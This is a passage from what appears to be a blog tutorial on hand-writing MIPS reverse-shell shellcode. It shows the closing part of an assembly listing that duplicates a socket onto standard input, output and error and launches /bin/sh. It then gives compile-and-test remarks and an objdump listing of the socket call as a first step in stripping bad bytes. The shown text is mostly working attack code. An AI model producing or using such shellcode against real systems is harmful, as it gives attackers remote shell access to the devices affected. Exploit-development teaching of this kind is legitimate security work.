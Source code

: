 ```
	syscall

	# dup2(socket_descriptor, STDIN)
	move $a0, $fp
	li $a1, 0
	li $v0, 0xFDF
	syscall

	# dup2(socket_descriptor, STDOUT)
	move $a0, $fp
	li $a1, 1
	li $v0, 0xFDF
	syscall

	# dup2(socket_descriptor, STDERR)
	move $a0, $fp
	li $a1, 2
	li $v0, 0xFDF
	syscall

	# execv("/bin/sh", ["/bin/sh", NULL], NULL)
	# Build /bin/sh on the stack.
	lui $t0, 0x6e69
	ori $t0, 0x622f
	sw $t0, -20($sp)
	lui $t0, 0x68
	ori $t0, 0x732f
	sw $t0, -16($sp)

	addi $a0, $sp, -20
	sw $a0, -12($sp)
	sw $zero, -8($sp)
	addiu $a1, $sp, -12
	li $a2, 0
	li $v0, 0xfab
	syscall
```

I saved the file as `rs.s` then compiled and tested with these commands.

![Compile and run shellcode]({{site.baseurl}}/assets/images/shellcode/compile_sc.png)

The `strace` from my compiled assembly matches the strace of the compiled C code, so step one is complete. Now that we have working shellcode let's focus on removing the bad bytes. We'll focus on the first function and use `objdump -d rs` to look at the opcodes. 

```
00400090 <_ftext>
	400090: 	24040002	li $a0, 2
	400094:		24050002	li $a1, 2
	400098:		24060000	li $a2, 0
	40009c:		24021057	li $v0, 0x1057
	4000a0:		0000000C	syscall
```
